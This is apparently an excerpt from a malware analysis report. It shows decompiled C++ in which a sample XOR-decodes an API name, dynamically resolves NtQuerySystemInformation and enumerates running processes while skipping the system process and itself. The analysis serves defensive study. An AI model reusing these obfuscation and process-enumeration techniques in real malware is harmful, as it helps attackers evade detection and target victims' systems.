 ```c++
        v6[7] = 26;
        v6[8] = 9;
        v6[9] = 42;
        v6[10] = 55;
        v6[11] = 45;
        v6[12] = 36;
        v6[13] = 57;
        v6[14] = 55;
        v6[15] = 37;
        v6[16] = 39;
        v6[17] = 59;
        v6[18] = 29;
        v6[19] = 56;
        v6[20] = 55;
        v6[21] = 33;
        v6[22] = 38;
        v6[23] = 30;
        v6[24] = 89;
        qmemcpy(v9, "CHIpY", 5);
        string_allocate(&v16, 25);
        for ( j = 0; j < 25; ++j )
            string_set_at(&v16, j, v9[j % 5] ^ v6[j]);
        v5 = get_string(&v16);
        v2 = get_string(&v15);
        v3 = LoadLibraryA(v2);
        NtQuerySystemInformation = GetProcAddress(v3, v5);
        string_free(&v16);
        string_free(&v15);
    }
    ...
```

The malware dynamically resolves `NtQuerySystemInformation` 

```c++
    //
    // Request size first
    //
    NtStatus = NtQuerySystemInformation(SystemProcessInformation, 0, 0, &dwSize);
    if ( NtStatus == STATUS_INFO_LENGTH_MISMATCH )
    {
        dwSize += 256;
        pProcInfo = VirtualAlloc(0, dwSize, 0x3000u, 4u);
        if ( pProcInfo )
        {
            //
            // Query process list information
            //
            NtStatus = NtQuerySystemInformation(SystemProcessInformation, pProcInfo, dwSize, 0);
            if ( NtStatus >= 0 )
            {
                ProcessInformation = pProcInfo;
                v13 = 0;
                while ( 1 )
                {
                    if ( ProcessInformation->UniqueProcessId )
                    {
                        //
                        // PID 4 -> Windows System
                        //
                        if ( ProcessInformation->UniqueProcessId != 4
                          && ProcessInformation->UniqueProcessId != MalwarePid )
                        {
                            wow64 = call_IsWow64Process(ProcessInformation->UniqueProcessId, 0);
```
